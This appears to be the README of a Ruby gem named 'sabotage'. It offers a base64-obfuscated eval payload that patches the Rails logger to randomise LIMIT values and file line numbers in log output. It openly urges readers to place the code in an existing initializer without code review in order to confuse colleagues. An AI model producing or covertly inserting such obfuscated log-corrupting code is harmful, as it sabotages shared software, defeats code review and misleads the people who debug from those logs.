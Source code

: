 # Sabotage

Coding & debugging must be fun. Make life a bit harder for your colleagues :)

Just try to put this code without code review into your app and start watching reactions of your colleagues.

Code from this gem is changing logs and randomizing log output. It's impacting output like:

```
  Post Load (0.1ms)  SELECT "posts".* FROM "posts" ORDER BY "posts"."id" DESC LIMIT ?  [["LIMIT", 1]
  ↳ app/views/posts/index.html.erb:7
  Post Load (0.2ms)  SELECT "posts".* FROM "posts"
  ↳ app/views/posts/index.html.erb:25
```

It will change numbers in `[["LIMIT", 1]` to random `[["LIMIT", 2]` or `[["LIMIT", 5]`.
Or `app/views/posts/index.html.erb:7` to `app/views/posts/index.html.erb:17` or to `app/views/posts/index.html.erb:5`

## Usage

There are 2 options how you can make a sabotage on your project.

- add as gem into Gemfile
- without adding a gem, just put code below into some existing `config/initializers/*`

```ruby
eval(Base64.decode64(%{CiAgY2xhc3MgU3RyaW5nCiAgICBkZWYgdG9fcmFuZG9tX251bWJlcgogICAg
ICByYW5kKHNlbGYubWF0Y2goL1xkKy8pWzBdLnRvX2kgKiAyKSArIDEKICAg
IGVuZAogIGVuZAogIG1vZHVsZSBBY3RpdmVTdXBwb3J0CiAgICBjbGFzcyBM
b2dnZXIgPCA6OkxvZ2dlcgogICAgICBjbGFzcyBTaW1wbGVGb3JtYXR0ZXIg
PCA6OkxvZ2dlcjo6Rm9ybWF0dGVyCiAgICAgICAgZGVmIGNhbGwoc2V2ZXJp
dHksIHRpbWVzdGFtcCwgcHJvZ25hbWUsIG1zZykKICAgICAgICAgIHN0ciA9
ICIje1N0cmluZyA9PT0gbXNnID8gbXNnIDogbXNnLmluc3BlY3R9XG4iCiAg
ICAgICAgICBzdHIuZ3N1YiEoL1xkK1xdLykgeyB8ZXwgZS50b19yYW5kb21f
bnVtYmVyIH0KICAgICAgICAgIFsncmInLCAnc2xpbScsICdoYW1sJywgJ2Vy
YicsICdqYnVpbGRlciddLmVhY2ggZG8gfGVlfAogICAgICAgICAgICBzdHIu
Z3N1YiEoL1wuI3tlZX06XGQrLykgICB7IHxlfCAiLiN7ZWV9OiN7ZS50b19y
YW5kb21fbnVtYmVyfSIgfQogICAgICAgICAgZW5kCiAgICAgICAgICBzdHIK
ICAgICAgICBlbmQKICAgICAgZW5kCiAgICBlbmQKICBlbmQK}))
```

(if you like to see source - you can do it here: https://www.base64decode.org/)


## Installation as Gem

```ruby
gem 'sabotage'
```

or

add into initializers, or application.rb at the bottom of the file.

## Contributing

You are welcome to contribute :)

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).
